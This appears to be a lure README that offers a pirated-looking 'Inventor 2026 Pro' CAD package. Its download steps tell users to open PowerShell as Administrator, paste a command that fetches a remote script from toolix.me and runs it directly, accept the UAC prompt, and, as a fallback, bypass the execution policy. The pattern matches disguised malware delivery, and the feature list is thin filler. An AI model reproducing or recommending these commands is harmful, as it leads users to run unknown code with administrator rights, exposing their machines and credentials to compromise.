

***

# Inventor 2026 Pro

<p align="center">
  
</p>

Inventor 2026 Pro — Windows 11 and 10 build | iPart families | BOM balloons.

## About this application

**Inventor 2026 Pro** in this repo is a Windows desktop package for mechanical teams building parts. Expect a guided first launch, access to the inventor desk with parts, assemblies, and drawings, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Inventor 2026 Pro suits mechanical teams building parts who need a straightforward Windows install and a focused parts, assemblies, and drawings workflow.

## What's included

Inventor desk tools are bundled in this release. Install locally, open the app, and use the parts, assemblies, and drawings toolkit right away.

## Features

⚡ Features
🧩 Constraints
📋 BOM
✨ Balloons
📄 PDF
🗂️ Vault-ready
🔍 Measure

## Good for

- 📌 Machine shops
- 🎯 Product teams
- ⭐ Tech colleges

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 16 GB minimum | 32 GB recommended
* **Disk:** 25 GB available storage

***